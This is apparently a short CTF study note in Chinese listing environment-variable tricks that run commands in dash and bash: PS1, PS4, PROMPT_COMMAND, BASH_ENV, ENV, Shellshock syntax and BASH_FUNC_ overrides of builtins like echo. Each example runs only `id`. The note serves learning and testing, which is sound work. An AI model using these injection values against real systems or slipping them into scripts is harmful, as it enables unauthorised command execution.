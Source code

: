 tags:: CTF/RCE, CTF/Shell

-
- # dash
	- ```shell
	  PS4='PS4 is worked $HOME Right?' dash -x -c "echo test"
	  PS1='`id`' dash
	  PS1='$(id)' dash
	  PROMPT_COMMAND='id' dash #退出dash的时候会执行
	  ```
- # bash
	- ```shell
	  BASH_ENV='$(id 1>&2)' bash -c 'echo hello'# shell_name为bash时触发
	  PROMPT_COMMAND='id' bash	#立即执行,因为每次换行后会换到一个新的bashshell
	  ```
	- shell shock
		- ```shell
		  TEST=() { :; }; id;
		  ```
	- `BASH_FUNC`
		- 原理
			- bash可以这样设置函数
				- ```shell
				  env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
				  ```
			- 我们可以覆盖某些函数实现任意命令执行
				- ```shell
				  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
				  ```
		- bash 4.2
			- ```shell
			  env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"
			  ```
		- bash 4.4+
			- ```shell
			  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
			  ```
	- sh兼容模式
		- ```shell
		  ENV='$(id 1>&2)' sh -i -c "echo hello"
		  ```
-
- # 参考
	- https://www.cnblogs.com/h0cksr/p/16189733.html
	-